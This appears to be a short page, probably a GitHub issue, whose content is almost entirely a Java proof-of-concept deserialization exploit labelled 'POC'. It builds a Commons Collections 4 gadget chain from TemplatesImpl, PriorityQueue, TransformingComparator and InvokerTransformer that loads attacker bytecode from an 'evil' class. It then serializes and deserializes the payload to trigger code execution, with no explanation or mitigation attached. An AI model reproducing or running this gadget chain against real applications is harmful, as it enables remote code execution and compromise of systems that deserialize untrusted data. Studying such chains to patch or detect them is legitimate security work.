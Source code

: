 



POC:

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Comparator;
import java.util.PriorityQueue;

public class ShiroTransformingComparator {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    protected static byte[] getBytescode() throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(evil.EvilTemplatesImpl.class.getName());
        return clazz.toBytecode();
    }

    public static void main(String[] args) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{getBytescode()});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Transformer transformer = new InvokerTransformer("toString", null, null);
        Comparator comparator = new TransformingComparator(transformer);
        PriorityQueue queue = new PriorityQueue(2, comparator);
        queue.add(obj);
        queue.add(obj);

        setFieldValue(transformer, "iMethodName", "newTransformer");

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}


```
